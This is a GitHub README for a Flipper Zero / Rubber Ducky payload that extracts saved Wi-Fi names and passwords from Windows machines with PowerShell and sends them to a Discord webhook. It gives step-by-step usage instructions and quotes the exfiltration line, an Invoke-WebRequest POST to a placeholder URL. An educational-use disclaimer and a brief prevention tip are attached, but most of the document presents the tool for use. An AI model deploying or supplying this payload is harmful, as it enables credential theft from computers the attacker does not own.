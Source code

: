 > [!IMPORTANT]
> The author and contributors claim no responsibility for unauthorized or unlawful utilization. This encompasses the use of the material, whether through forks or modifications undertaken by third parties. Users are strongly encouraged to exercise due diligence and assume full responsibility for their actions. The contents within this repository are provided solely for educational purposes.

<br>

![Some Weird Image](https://github.com/cxdzc/network-payload/assets/110936008/11c7bdde-e4b0-4cdf-9ccd-22e4b86f28ad)

# 📦 WAKER Network Payload v1.0.0
Obtain Wi-Fi names and passwords from a Microsoft Windows operating system computer. This can be accessed by leveraging the convenience of Wi-Fi profiles that are saved on Microsoft Windows operating systems using PowerShell. 

<br>

> [!NOTE]
> The payload was designed for a Flipper Zero using the classic Rubber Ducky Scripting Language 1.0 to exfiltrate data through the use of Discord webhooks. It can also be used as a regular payload with a webhook.

# 📄 Instructions
1. Replace `https://YOUR_LINK_HERE.com` in [payload.txt](https://github.com/cxdzc/network-payload/payload.txt) with your custom webhook.

`...Invoke-WebRequest -Uri https://YOUR_LINK_HERE.com -Method Post...`

2. Upload [payload.txt](https://github.com/cxdzc/network-payload/payload.txt) to your hotplug.
3. Execute the file.

# ⛔ Prevention
There are many ways to prevent this hotload attack from occurring. A very quick, simple, and temporary way is by deleting "Managed Known Networks" in Settings and to refrain from saving your Wi-Fi passwords.

# ❤ Contributors 
<a href="https://github.com/cxdzc/network-payload/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=cxdzc/network-payload" />
</a>

<sub>THANK YOU!</sub>

# 📜 License
The content and software in this GitHub repository are licensed under the Creative Commons [Attribution-NonCommercial-ShareAlike 4.0 International License](LICENSE). Users are free to share and adapt the material covered by this license, subject to the following conditions: provide appropriate attribution, refrain from employing it for commercial purposes, and distribute any derivative works under the same licensing terms.

> [!NOTE]
> If you would like to provide appropriate attribution, you may simply refer to this GitHub [repository](https://github.com/cxdzc/network-payload) or this GitHub account [@cxdzc](https://github.com/cxdzc).

<a rel="license" href="http://creativecommons.org/licenses/by-nc-sa/4.0/"><img alt="Creative Commons License" style="border-width:0" src="https://i.creativecommons.org/l/by-nc-sa/4.0/88x31.png" /></a>
